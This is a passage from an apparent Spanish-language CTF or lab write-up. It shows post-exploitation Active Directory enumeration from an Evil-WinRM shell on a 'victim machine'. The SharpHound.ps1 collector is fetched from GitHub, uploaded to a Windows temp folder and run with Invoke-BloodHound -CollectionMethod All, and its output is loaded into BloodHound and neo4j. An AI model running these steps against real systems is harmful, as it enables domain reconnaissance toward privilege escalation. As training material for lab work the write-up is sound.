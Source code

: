 # Haciendo Uso de SharpHound.ps1
Procedemos a enumerar el sistema a nivel de Active Directory con la herramienta SharpHound.ps1
Nos descargamos SharpHound.ps1 haciendo un wget a --> https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
Grepeando por la funcion
```bash
# grep "Invoke-BloodHound" SharpHound.ps1
function Invoke-BloodHound{
        PS C:\> Invoke-BloodHound -Loop -LoopInterval 00:01:00 -LoopDuration 00:10:00
  "     PS C:\> Invoke-BloodHound -CollectionMethod All "     ---> esta es la que usaremos
        PS C:\> Invoke-BloodHound -CollectionMethod DCOnly -NoSaveCache -RandomizeFilenames -EncryptZip
```

Procedemos a subirlo a la maquina victima a la siguiente ruta `C://Windows/Temp/Privesc/`

```bash
Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> cd C://Windows/Temp/Privesc
*Evil-WinRM* PS C:\Windows\Temp\Privesc> upload SharpHound.ps1
Info: Uploading SharpHound.ps1 to C:\Windows\Temp\Privesc\SharpHound.ps1

Progress: 43% : |▓▓▓▒░░░░░░

*Evil-WinRM* PS C:\Windows\Temp\Privesc> dir
    Directory: C:\Windows\Temp\Privesc

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         1/4/2022   2:13 PM         974235 SharpHound.ps1
```
Una vez subido Procedemos a hacer lo siguiente:

```bash
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Import-Module .\SharpHound.ps1

*Evil-WinRM* PS C:\Windows\Temp\Privesc> Invoke-BloodHound -CollectionMethod All

*Evil-WinRM* PS C:\Windows\Temp\Privesc> dir


    Directory: C:\Windows\Temp\Privesc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         1/4/2022   2:15 PM           9067 20220104141535_BloodHound.zip
-a----         1/4/2022   2:13 PM         974235 SharpHound.ps1
-a----         1/4/2022   2:15 PM          11122 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin
```
Ahora procedemos a iniciar el servicio `neo4j console` en una terminal ~ Nos logueamos con nuestras Credenciales
Ahora procedemos a iniciar el servicio `BloodHound &>/dev/null &` para subir el archivo `.zip` que acabamos de crear con la expresion anterior atraves del modulo SharpHound
